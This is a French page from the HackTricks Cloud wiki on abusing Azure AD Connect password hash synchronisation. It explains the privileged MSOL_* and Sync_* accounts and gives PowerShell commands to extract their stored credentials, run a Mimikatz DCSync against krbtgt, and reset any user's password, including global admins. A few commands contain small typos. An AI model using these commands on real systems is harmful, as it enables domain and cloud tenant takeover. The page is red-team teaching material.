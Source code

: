 # Az - PHS - Synchronisation de Hash de Mot de Passe

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Informations de Base

La **synchronisation de hash de mot de passe** est l'une des méthodes de connexion utilisées pour réaliser une identité hybride. **Azure AD Connect** synchronise un hash, du hash, du mot de passe d'un utilisateur d'une instance Active Directory locale vers une instance Azure AD basée dans le cloud.

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

C'est la **méthode la plus courante** utilisée par les entreprises pour synchroniser un AD local avec Azure AD.

Tous les **utilisateurs** et un **hash des hashes de mot de passe** sont synchronisés du local vers Azure AD. Cependant, les **mots de passe en clair** ou les **hashes originaux** ne sont pas envoyés à Azure AD.
De plus, les groupes de sécurité **intégrés** (comme les administrateurs de domaine...) ne sont **pas synchronisés** avec Azure AD.

La **synchronisation des hashes** se produit toutes les **2 minutes**. Cependant, par défaut, l'**expiration du mot de passe** et l'**expiration du compte** ne sont **pas synchronisées** dans Azure AD. Ainsi, un utilisateur dont le **mot de passe local est expiré** (non modifié) peut continuer à **accéder aux ressources Azure** en utilisant l'ancien mot de passe.

Lorsqu'un utilisateur local souhaite accéder à une ressource Azure, l'**authentification a lieu sur Azure AD**.

**PHS** est requis pour des fonctionnalités telles que **Identity Protection** et les Services de Domaine AAD.

## Pivotement

Lorsque PHS est configuré, certains **comptes privilégiés** sont automatiquement **créés** :

* Le compte **`MSOL_<installationID>`** est automatiquement créé dans l'AD local. Ce compte se voit attribuer un rôle de **Comptes de Synchronisation d'Annuaire** (voir [documentation](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) ce qui signifie qu'il a des **permissions de réplication (DCSync) dans l'AD local**.
* Un compte **`Sync_<nom du serveur ADConnect local>_installationID`** est créé dans Azure AD. Ce compte peut **réinitialiser le mot de passe de N'IMPORTE QUEL utilisateur** (synchronisé ou uniquement dans le cloud) dans Azure AD.

Les mots de passe des deux comptes privilégiés précédents sont **stockés dans un serveur SQL** sur le serveur où **Azure AD Connect est installé**. Les administrateurs peuvent extraire les mots de passe de ces utilisateurs privilégiés en clair.
La base de données se trouve dans `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Il est possible d'extraire la configuration de l'une des tables, l'une étant chiffrée :

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

La **configuration chiffrée** est chiffrée avec **DPAPI** et contient les **mots de passe de l'utilisateur `MSOL_*`** dans l'AD local et le mot de passe de **Sync\_\*** dans AzureAD. Par conséquent, compromettre ces éléments permet de passer à un niveau de privilège supérieur dans l'AD et dans AzureAD.

Vous pouvez trouver un [aperçu complet de la manière dont ces identifiants sont stockés et déchiffrés dans cette présentation](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Trouver le **serveur Azure AD connect**

Si le **serveur où Azure AD connect est installé** est joint à un domaine (recommandé dans la documentation), il est possible de le trouver avec :
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Abuser de MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Vous pouvez également utiliser [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) pour obtenir ces identifiants.
{% endhint %}

### Abuser de Sync\_\*

Compromettre le compte **`Sync_*`** permet de **réinitialiser le mot de passe** de n'importe quel utilisateur (y compris les Administrateurs Globaux)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Il est également possible de **modifier les mots de passe des utilisateurs uniquement dans le cloud** (même si cela est inattendu)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Il est également possible de récupérer le mot de passe de cet utilisateur.

{% hint style="danger" %}
Une autre option serait d'**attribuer des permissions privilégiées à un principal de service**, ce que l'utilisateur **Sync** a le **droit** de faire, puis d'**accéder à ce principal de service** comme moyen d'élévation de privilèges.
{% endhint %}

### Seamless SSO

Il est possible d'utiliser Seamless SSO avec PHS, ce qui est vulnérable à d'autres abus. Vérifiez-le dans :

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Références

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
